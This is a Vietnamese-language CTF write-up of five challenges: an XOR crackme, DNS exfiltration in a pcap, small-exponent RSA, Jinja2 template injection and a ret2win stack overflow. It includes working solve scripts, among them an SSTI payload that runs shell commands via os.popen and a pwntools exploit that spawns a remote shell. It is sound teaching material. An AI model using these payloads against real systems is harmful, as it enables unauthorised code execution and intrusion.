


GreenByte CTF năm nay khá "dễ thở" ở nửa đầu bảng điểm nhưng đuối dần về sau. Team mình
cày được đa số các bài Easy–Medium. Bài viết này mình ghi lại 5 challenge mình trực tiếp
giải, mỗi bài theo đúng mạch: **tìm hiểu → phân tích lỗ hổng → ý tưởng khai thác →
PoC → flag**. Bạn có thể dùng mục lục bên trái để nhảy nhanh tới từng bài.

## babycrack

### Tìm hiểu về challenge

Đề cho một file ELF 64-bit, không bị strip:

```bash
$ file babycrack
babycrack: ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped

$ ./babycrack
Enter license key: hello
Nope.
```

Nhiệm vụ rõ ràng: tìm chuỗi "license key" đúng để chương trình in flag. Vì không strip
nên mình nạp thẳng vào decompiler (Ghidra/IDA) và nhảy tới `main`.

### Phân tích lỗ hổng

Hàm `main` sau khi decompile:



Logic kiểm tra gọn trong một vòng lặp:

```c
if (strlen(input) != 0x1d) goto WRONG;          // key dài đúng 29 ký tự
for (i = 0; i < 0x1d; i++) {
    if ((uint8_t)((input[i] ^ KEY[i % 4]) + i) != ENC[i]) goto WRONG;
}
```

Mỗi ký tự được kiểm tra **độc lập** với nhau — không có trạng thái nào truyền từ byte này
sang byte khác. Đây là dấu hiệu tốt: ta có thể giải ngược từng byte một.

Phép biến đổi cho mỗi byte là: `ENC[i] = (input[i] ^ KEY[i % 4] + i) & 0xff`.

Trong đó `KEY = {0x13, 0x37, 0xc0, 0xde}`, và mảng `ENC` nằm ở `.rodata`:

```text
54 76 85 8d 59 51 be f5 69 71 fe bb 83 75 02 c9
87 79 03 c0 60 6e 06 c1 64 1d c8 d8 8a
```

### Ý tưởng khai thác

Phép biến đổi hoàn toàn khả nghịch. Đảo ngược công thức: `input[i] = ((ENC[i] - i) & 0xff) ^ KEY[i % 4]`.

Không cần brute-force, chỉ cần tính ngược từng byte.

### Proof-of-concept

```python
#!/usr/bin/env python3
# solve_babycrack.py
KEY = [0x13, 0x37, 0xC0, 0xDE]
ENC = [
    0x54, 0x76, 0x85, 0x8D, 0x59, 0x51, 0xBE, 0xF5, 0x69, 0x71,
    0xFE, 0xBB, 0x83, 0x75, 0x02, 0xC9, 0x87, 0x79, 0x03, 0xC0,
    0x60, 0x6E, 0x06, 0xC1, 0x64, 0x1D, 0xC8, 0xD8, 0x8A,
]

flag = bytes(((ENC[i] - i) & 0xFF) ^ KEY[i % 4] for i in range(len(ENC)))
print(flag.decode())
```

```text
$ python3 solve_babycrack.py
GBCTF{x0r_4nd_4dd_1s_n0t_3nc}
```

Dán lại vào binary để chắc chắn:

```bash
$ ./babycrack
Enter license key: GBCTF{x0r_4nd_4dd_1s_n0t_3nc}
Correct! Here is your flag :)
```

### Flag

`GBCTF{x0r_4nd_4dd_1s_n0t_3nc}`

## silent-whisper

### Tìm hiểu challenge

Đề cho một file `capture.pcapng` và gợi ý: *"Dữ liệu đã rời khỏi mạng, nhưng không qua
cổng nào bạn hay theo dõi đâu."* — nghe là thấy mùi **exfiltration** qua một kênh ẩn.

Mở bằng Wireshark, lọc nhanh theo protocol hierarchy thì lưu lượng gần như toàn **DNS**,
với một loạt query tới các subdomain lạ của `x.gr33nbyte.lab`:



### Lỗ hổng / Phân tích

Đây là kỹ thuật **DNS exfiltration** kinh điển: dữ liệu được nhét vào phần label của tên
miền. Mỗi truy vấn mang một mẩu dữ liệu, server (do attacker kiểm soát) nhận được là đã
"nghe lén" xong, kể cả khi response chỉ là `127.0.0.1`.

Lọc đúng các query và chỉ lấy tên miền:

```bash
$ tshark -r capture.pcapng -Y 'dns.flags.response == 0' \
         -T fields -e dns.qry.name | grep gr33nbyte.lab
i5begvcgpnsg4427.x.gr33nbyte.lab
gn4gmmlml4ytkx3o.x.gr33nbyte.lab
gb2f64zql5ztc3bt.x.gr33nbyte.lab
nz2h2.x.gr33nbyte.lab
end.x.gr33nbyte.lab
```

Các label đầu nhìn rất giống **Base32** (chỉ gồm `a–z` và `2–7`). Chuỗi `end` cuối cùng là
dấu kết thúc. Ghép các label dữ liệu lại:

```text
i5begvcgpnsg4427 gn4gmmlml4ytkx3o gb2f64zql5ztc3bt nz2h2
```

### Khai thác

Base32 không phân biệt hoa thường nhưng chuẩn RFC 4648 dùng chữ hoa, nên mình uppercase
toàn bộ rồi pad `=` cho đủ bội số 8 ký tự trước khi decode.

### Proof-of-concept

```python
#!/usr/bin/env python3
# solve_silent_whisper.py
import base64
from scapy.all import rdpcap, DNS, DNSQR

SUFFIX = ".x.gr33nbyte.lab"
labels = []
for pkt in rdpcap("capture.pcapng"):
    if pkt.haslayer(DNSQR) and pkt.haslayer(DNS) and pkt[DNS].qr == 0:
        name = pkt[DNSQR].qname.decode().rstrip(".")
        if name.endswith(SUFFIX):
            label = name[: -len(SUFFIX)]
            if label != "end":
                labels.append(label)

b32 = "".join(labels).upper()
b32 += "=" * (-len(b32) % 8)            # pad lại cho đủ block
flag = base64.b32decode(b32)
print(flag.decode())
```

```text
$ python3 solve_silent_whisper.py
GBCTF{dns_3xf1l_15_n0t_s0_s1l3nt}
```

> Nếu không muốn cài scapy, bạn có thể thay phần đọc gói bằng `tshark ... | ...` ở trên
> rồi đưa danh sách label vào thẳng biến `labels`.

### Flag

`GBCTF{dns_3xf1l_15_n0t_s0_s1l3nt}`

## cube-it

### Phân tích challenge

Challenge RSA, cho `output.txt`:

```text
n = 15492161680523648242376900703947131308356248717601483921466681570546372139579790272338287971156294647794669274893297597542060348831493000117856270720508749709491913442434028791733687531707748393780668779413584374821780537515487469791134351387569606284034140374060991846210005182967575378962531237729898952977600017412334684779503246053608992678099141285198206845799819826437400934499169332502409259598060102553456604393446330188556303597938081316237715983724480113009053397494192356413368058438464796672834895695090116721041940120957893282627285347358412911061506599445718712782298758912281715224771557556258757872803
e = 3
c = 158122147607848573560545336819501130744111436416908433308064225238845853727202121213963377017519101730902974380158229524469803813230706071676964231339550670286250927629744753061559985222557543867915575723823252323668836497924713282681056897502639067237
```

### Lỗ hổng

Hai dấu hiệu đập vào mắt ngay:

1. **`e = 3`** — số mũ công khai rất nhỏ.
2. **`c` ngắn hơn `n` rất nhiều** — `c` chỉ ~250 chữ số trong khi `n` ~617 chữ số.

Điều này nghĩa là flag `m` nhỏ tới mức `m**3 < n`. Khi đó phép modulo **không xảy ra**, tức là `c = m**3 mod n = m**3`.

Đây chính là lỗi **small-`e` / no-padding** kinh điển. Không cần phân tích `n`, chỉ việc
lấy **căn bậc ba nguyên** của `c`.

### Ý tưởng khai thác

Tính `m = cube_root(c)` bằng binary search số nguyên (tránh sai số dấu phẩy động của
`c ** (1/3)`), rồi chuyển `m` về bytes.

### Proof-of-concept

```python
#!/usr/bin/env python3
# solve_cube_it.py
c = 158122147607848573560545336819501130744111436416908433308064225238845853727202121213963377017519101730902974380158229524469803813230706071676964231339550670286250927629744753061559985222557543867915575723823252323668836497924713282681056897502639067237

def iroot(x, k):
    """Căn bậc k nguyên của x bằng binary search."""
    lo, hi = 0, 1 << ((x.bit_length() // k) + 1)
    while lo < hi:
        mid = (lo + hi) // 2
        if mid ** k < x:
            lo = mid + 1
        else:
            hi = mid
    return lo  # lo**k == x khi c là lập phương đúng

m = iroot(c, 3)
assert m ** 3 == c, "c không phải lập phương đúng — cần tấn công khác"
flag = m.to_bytes((m.bit_length() + 7) // 8, "big")
print(flag.decode())
```

```text
$ python3 solve_cube_it.py
GBCTF{sm4ll_3_n0_p4dd1ng_n0_s4f3ty}
```

Nếu dùng `gmpy2` cho gọn: `gmpy2.iroot(c, 3)[0]` trả về đúng kết quả tức thì.

### Flag

`GBCTF{sm4ll_3_n0_p4dd1ng_n0_s4f3ty}`

## render-me-maybe

### Tìm hiểu challenge

Một web app Flask nhỏ cho phép tạo "thẻ chào mừng" cá nhân hoá. Form gửi tham số `name`,
server render ra lời chào. Source rò rỉ một phần qua endpoint `/source`:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

TEMPLATE = """
<div class="card">
  <h1>Xin chào, %s!</h1>
  <p>Chúc bạn một ngày tốt lành 🌱</p>
</div>
"""

@app.route("/")
def index():
    name = request.args.get("name", "khách")
    return render_template_string(TEMPLATE % name)   # <-- đáng ngờ
```

### Lỗ hổng

Người dùng kiểm soát `name`, chuỗi này được nhét vào template **rồi** mới đưa qua
`render_template_string`. Đây là **Server-Side Template Injection (SSTI)** với Jinja2 —
mọi thứ nằm trong `{{ ... }}` sẽ được Jinja đánh giá trên server.

Kiểm chứng nhanh bằng payload toán học:

```text
$ curl 'http://render.chal.gr33nbyte.lab/?name={{7*7}}'
...
<h1>Xin chào, 49!</h1>
```

`49` xuất hiện → template engine thực thi biểu thức của mình. Confirmed.

### Khai thác

Từ SSTI trong Jinja2, mục tiêu là leo tới **RCE** để đọc flag (`/flag.txt` trên server).
Mình đi theo chuỗi gadget kinh điển qua MRO của object để lấy lớp con `Popen`:

```text
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Duyệt danh sách để tìm index của `subprocess.Popen` rồi gọi lệnh. Để khỏi phải đếm index
thủ công (dễ lệch giữa các phiên bản Python), mình dùng gadget qua các object có sẵn trong
context của Jinja như `cycler` / `lipsum`: `__init__.__globals__` của chúng chứa sẵn module `os`:

```jinja
{{ cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
```

### Proof-of-concept

```python
#!/usr/bin/env python3
# solve_render_me.py
import re
import requests

BASE = "http://render.chal.gr33nbyte.lab/"
payload = "{{ cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}"

r = requests.get(BASE, params={"name": payload})
# Trích nội dung giữa thẻ <h1>
m = re.search(r"Xin chào, (.*?)!", r.text, re.S)
print(m.group(1).strip() if m else r.text)
```

```text
$ python3 solve_render_me.py
GBCTF{j1nja2_ssti_1s_class1c_f0r_a_r3as0n}
```

> **Bài học:** không bao giờ dùng `%`/f-string để chèn dữ liệu người dùng vào template
> rồi mới render. Hãy truyền biến qua context: `render_template_string("Hi {{ name }}",
> name=name)`.

### Flag

`GBCTF{j1nja2_ssti_1s_class1c_f0r_a_r3as0n}`

## warm-up-stack

### Phân tích challenge

Bài pwn "khởi động". Cho ELF 64-bit cùng source C:

```c
// warmup.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    system("/bin/sh");
}

void vuln() {
    char buf[64];
    puts("Say something:");
    read(0, buf, 256);          // đọc 256 byte vào buf[64] -> tràn
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```

Kiểm tra mitigations:

```bash
$ checksec --file=warmup
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

### Lỗ hổng

`read(0, buf, 256)` ghi tối đa 256 byte vào `buf[64]` → **stack buffer overflow** cổ điển.
Không có **stack canary**, lại **No PIE** (địa chỉ `win` cố định) ⇒ đây là bài **ret2win**
đơn giản: chỉ cần ghi đè return address bằng địa chỉ hàm `win`.

### Ý tưởng khai thác

1. Tìm **offset** từ đầu `buf` tới saved RIP: `64` byte buffer + `8` byte saved RBP = **72**.
2. Lấy địa chỉ `win` (No PIE nên tĩnh): `objdump`/`pwntools`.
3. Payload = `b"A" * 72 + p64(win)`.

> Một chi tiết nhỏ nhưng hay quên: nhiều libc yêu cầu **stack alignment 16-byte** trước
> lệnh `call` trong `system`. Nếu bị crash ở `movaps`, chèn thêm một gadget `ret` trước
> địa chỉ `win` để căn lại stack.

Xác nhận offset bằng cyclic pattern:

```bash
$ cyclic 100 | ./warmup        # rồi trong gdb:
$ cyclic -l faaa               # -> 72
```

### Proof-of-concept

```python
#!/usr/bin/env python3
# solve_warmup.py
from pwn import *

elf = context.binary = ELF("./warmup")

# io = process("./warmup")
io = remote("pwn.chal.gr33nbyte.lab", 9001)

ret = ROP(elf).find_gadget(["ret"])[0]      # để căn stack 16-byte
payload = flat(
    b"A" * 72,
    p64(ret),
    p64(elf.symbols["win"]),
)

io.sendlineafter(b"Say something:", payload)
io.interactive()
```

```text
$ python3 solve_warmup.py
[+] Opening connection to pwn.chal.gr33nbyte.lab on port 9001: Done
[*] Switching to interactive mode
$ cat flag.txt
GBCTF{r3t2w1n_1s_a_g00d_f1rst_pwn}
```

### Flag

`GBCTF{r3t2w1n_1s_a_g00d_f1rst_pwn}`

## Lời kết

Năm bài trên trải khá đều các category nền tảng của CTF. Điểm chung của các bài Easy–Medium
thường là **nhận diện đúng pattern** (xor khả nghịch, DNS exfil, small-`e` RSA, SSTI,
ret2win) hơn là kỹ thuật cao siêu. Mình học được nhất ở bài `silent-whisper` — nhắc bản
thân rằng lưu lượng DNS cũng đáng soi kỹ như HTTP.

Cảm ơn bạn đã đọc tới đây. Nếu có cách giải hay hơn hoặc mình sai chỗ nào, cứ ping mình
qua các link ở trang [About](../../about/) nhé! 🌱
